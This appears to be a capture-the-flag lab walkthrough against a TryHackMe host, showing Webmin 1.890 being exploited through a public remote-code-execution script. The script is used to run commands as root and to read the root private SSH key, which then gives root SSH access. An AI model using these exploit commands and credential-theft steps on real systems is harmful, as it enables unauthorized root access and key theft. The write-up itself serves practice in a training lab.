





Adding to /etc/hosts:


Now visiting https://thomaswreath.thm:10000:

We have a login page

Searching webmin on searchsploit:
```
searchsploit Webmin
```
According to nmap scan we have 1.890 Webmin.

Using this [exploit](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py)
```
python3 webmin-1.890_exploit.py thomaswreath.thm 10000 whoami
```

We are root user and we have command execution.

Now trying to get ssh keys:
```
python3 webmin-1.890_exploit.py thomaswreath.thm 10000 'cat /root/.ssh/id_rsa'
```


We have ssh keys.

Copy to a file id_rsa and change permissions so that the permissions are not too open:
```
chmod 600 id_rsa
```
Now connect using ssh:
```
ssh root@thomaswreath.thm -i id_rsa
```


